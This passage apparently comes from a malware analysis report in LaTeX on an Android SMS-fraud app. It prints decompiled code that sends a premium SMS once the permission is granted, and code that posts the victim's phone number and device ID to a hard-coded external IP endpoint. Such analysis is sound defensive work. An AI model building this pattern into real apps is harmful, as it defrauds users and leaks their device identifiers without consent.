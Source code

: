 The \texttt{onCreate} method, as the Android spec states, is being called when activity is being launched and based on the fact that this Activity is a Launcher activity, application tries to send an SMS on every app startup.

Additional issue with the application is the way it informs user about the need for ability to send messages. When user refuses to grand permission it shows a non-informing message ,,Please allow access!''. The code snippet responsible for permission request handling is attached at \ref{fig:0003}. If user accepts the permissions request mistakenly, the app will immediately send the premium message.

\begin{minipage}{\linewidth}
  \begin{lstlisting}[
    style=cpp,
    caption={Permission request handling.},
    captionpos=b,
    label={fig:0003}
  ]
public void onRequestPermissionsResult(
  int requestCode, String[] permissions, int[] grantResults) {
  super.onRequestPermissionsResult(requestCode, permissions, grantResults);
  if (requestCode != 1 || grantResults[0] != 0) {
      Toast.makeText(this, 'Please allow access!', 1).show();
  } else if (this.service != null && this.content != null) {
      sendMessage(this.service, this.content);
  }
}
  \end{lstlisting}
\end{minipage}

\subsubsection{Boot Service class analysis}


Another suspicious place which also performs POST request is the \texttt{Boot Service} (also one of starting at app start up). It's a service that triggers action when receive \texttt{"SENT\_HUGE\_SMS\_ACTION"} that is triggered as a callback to \texttt{sendTextMessage} method of \texttt{SmsManager} in \texttt{Loading} class after sending fraud SMS. This service sends status of SMS sending operation to the \texttt{smspostback} endpoint with additional data - phone number and device id, which is, based on Android spec, ,,unique device ID of a subscription, for example, the IMEI for GSM and the MEID for CDMA phones''. Listing \ref{fig:0002} shows the exact code that generates URL with params.

\begin{minipage}{\linewidth}
  \begin{lstlisting}[
    style=cpp,
    caption={Second suspicious call with phone number, device ID and status of operation.},
    captionpos=b,
    label={fig:0002}
  ]
  HttpURLConnection urlConnection =
  (HttpURLConnection) new URL(
    "http://139.59.107.168:8088/smspostback?phone="
    + this.phone + "&status=" + status + "&diviceid="
    + getDeviceId()).openConnection();
  \end{lstlisting}
  \end{minipage}



